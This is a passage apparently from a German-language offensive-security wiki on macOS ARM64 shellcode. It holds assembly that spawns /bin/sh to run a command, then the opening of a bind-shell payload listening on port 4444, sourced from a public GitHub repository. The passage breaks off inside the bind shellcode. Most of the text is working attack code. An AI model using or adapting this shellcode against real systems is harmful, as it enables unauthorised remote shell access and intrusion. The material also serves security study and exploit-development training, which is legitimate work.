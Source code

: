 ```armasm
beq _loop              ; If not child process, loop

; Prepare the arguments for the execve syscall

sub sp, sp, #64        ; Allocate space on the stack
mov x1, sp             ; x1 will hold the address of the argument array
adr x0, sh_path
str x0, [x1]           ; Store the address of "/bin/sh" as the first argument
adr x0, sh_c_option    ; Get the address of "-c"
str x0, [x1, #8]       ; Store the address of "-c" as the second argument
adr x0, touch_command  ; Get the address of "touch /tmp/lalala"
str x0, [x1, #16]      ; Store the address of "touch /tmp/lalala" as the third argument
str xzr, [x1, #24]     ; Store NULL as the fourth argument (end of arguments)

adr x0, sh_path
mov x2, xzr            ; Clear x2 to hold NULL (no environment variables)
mov x16, #59           ; Load the syscall number for execve (59) into x8
svc 0                  ; Make the syscall


_exit:
mov x16, #1            ; Load the syscall number for exit (1) into x8
mov x0, #0             ; Set exit status code to 0
svc 0                  ; Make the syscall

_loop: b _loop

sh_path: .asciz "/bin/sh"
.align 2
sh_c_option: .asciz "-c"
.align 2
touch_command: .asciz "touch /tmp/lalala"
```
#### Bind shell

Bind shell von [https://raw.githubusercontent.com/daem0nc0re/macOS\_ARM64\_Shellcode/master/bindshell.s](https://raw.githubusercontent.com/daem0nc0re/macOS\_ARM64\_Shellcode/master/bindshell.s) in **Port 4444**
```armasm
.section __TEXT,__text
.global _main
.align 2
_main:
call_socket:
// s = socket(AF_INET = 2, SOCK_STREAM = 1, 0)
mov  x16, #97
lsr  x1, x16, #6
lsl  x0, x1, #1
mov  x2, xzr
svc  #0x1337

// save s
mvn  x3, x0

call_bind:
/*
* bind(s, &sockaddr, 0x10)
*
* struct sockaddr_in {
*     __uint8_t       sin_len;     // sizeof(struct sockaddr_in) = 0x10
*     sa_family_t     sin_family;  // AF_INET = 2
*     in_port_t       sin_port;    // 4444 = 0x115C
*     struct  in_addr sin_addr;    // 0.0.0.0 (4 bytes)
```